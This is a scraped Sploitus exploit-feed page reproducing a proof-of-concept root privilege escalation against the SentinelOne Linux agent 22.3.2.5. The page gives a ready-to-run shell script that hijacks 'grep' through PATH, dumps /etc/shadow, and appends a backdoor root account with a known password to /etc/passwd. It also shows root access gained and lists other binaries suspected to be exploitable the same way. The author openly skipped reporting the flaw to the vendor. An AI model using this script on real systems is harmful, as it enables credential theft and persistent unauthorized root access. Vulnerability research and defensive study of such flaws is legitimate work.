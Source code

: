 ```yaml
---
title: SentinelOne sentinelagent 22.3.2.5 Privilege Escalation exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170128&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-08
fetch_date: 2025-10-04T00:51:13.310750
---
```


# SentinelOne sentinelagent 22.3.2.5 Privilege Escalation exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for SentinelOne sentinelagent 22.3.2.5 Privilege Escalation

2022-12-07 | CVSS 0.6

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170128
Exploit Title: SentinelOne sentinelagent (linux) root Privilege Escalation zero day vulnerability
Date: 12/06/2022
Exploit Author: ouch_this_hurts
Vendor Homepage: https://www.sentinelone.com/
Software Link: https://assets.sentinelone.com/prod/s1-linux-agent-datas
Version: 22.3.2.5
Tested on: Ubuntu 22.04.x
CVE: NA

Not enough AI in the world can help you write secure software it seems? The vendor doesnt make reporting vulnerabilities easy, so to exploit-db it goes :)

Protips:
- If I Google you, and I cannot find an easy way to report the vulnerability, I'm not going to bother.
- If you require me to use HackerOne, I'm not going to bother.
- If you dont have a security.txt, how do you expect me to contact you?

Get `root` on a system with `sentinelagent<=22.3.2.5` with one simple trick:

Override `grep` in the `PATH` with your malicious code. Reboot. pwnd. Nice!

PoC below:
1. Find the systems "earliest" `PATH`, or just override it to whatever you want in `/etc/environment` with some other staged exploit.
2. Create the following `grep` file in that directory and make sure its executable:

```shell
cat << SENTINELOOPS > /usr/local/bin/grep
#!/bin/bash
# I think I'll have the passwds pl0x
cat /etc/shadow > /tmp/etc_shadow

# password is password :)
echo 'sentinel_oops:\$1\$user1\$WuzQ29wbcMN09VLW7X0/q1:0:0::/root:/bin/sh' >> /etc/passwd
SENTINELOOPS

chmod +x /usr/local/bin/grep
```

3. Wait for machine to reboot, login as `sentinel_oops:password` :)

```
$ su sentinel_oops
Password:
# whoami
root
```

What actually happened here? On `sentinelagent` start it runs `sh -c "grep...."`.

So there are potentially other ways of privilege escalation via this "agent"?
- `grep` as demonstrated above
- `pgrep` examining the binary appears to be vulnerable
- `xargs` examining the binary appears to be vulnerable
- `cat` examining the binary appears to be vulnerable
- `pgrep` examining the binary appears to be vulnerable
- `ldd` examining the binary appears to be vulnerable
- `lsmod` examining the binary appears to be vulnerable
- `mksh` examining the binary appears to be vulnerable
- `awk` examining the binary appears to be vulnerable

[CWE-427](https://cwe.mitre.org/data/definitions/427.html) and [how to write secure software](https://youtu.be/RfiQYRn7fBg?t=16)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)